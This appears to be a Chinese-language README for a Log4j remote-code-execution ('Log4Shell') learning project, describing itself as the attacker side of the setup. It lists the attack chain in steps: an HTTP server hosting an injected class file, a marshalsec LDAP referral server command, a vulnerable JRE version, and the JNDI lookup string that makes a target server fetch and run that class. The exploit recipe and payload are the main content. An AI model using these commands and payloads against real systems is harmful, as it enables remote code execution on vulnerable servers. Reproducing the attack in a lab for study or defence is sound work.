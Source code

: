 ## Apache-Log4j Rce learning

该项目仅限测试使用,该项目是攻击者工程。项目分为两个部分:
1. 文件服务器
2. ldap服务器(ldapserver/marshalsec-0.0.3-SNAPSHOT-all.jar)

### 环境说明

由于高版本的 jre 内部会自动组织远程注入，因此该项目的测试的被攻击者环境jre 为 1.8.0_181 测试通过，可复现

### 文件说明

1. `InjectionFile.class` 被攻击服务器执行的代码
2. `marshalsec-0.0.3-SNAPSHOT-all.jar` ldap服务
3. `Log4jInjectionServerApplication` class文件提供服务

### 步骤

1. 运行 `Log4jInjectionServerApplication` 文件服务(端口10806)，该服务会将 `loadfile` 文件夹下的文件提供http下载
2. 运行 `marshalsec-0.0.3-SNAPSHOT-all.jar` ldap服务(端口10807)
   ，运行命令参考 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:10806/files/#InjectionFile 10807`
3. 让被攻击服务器打印出 `${jndi:ldap://localhost:10807/InjectionFile}`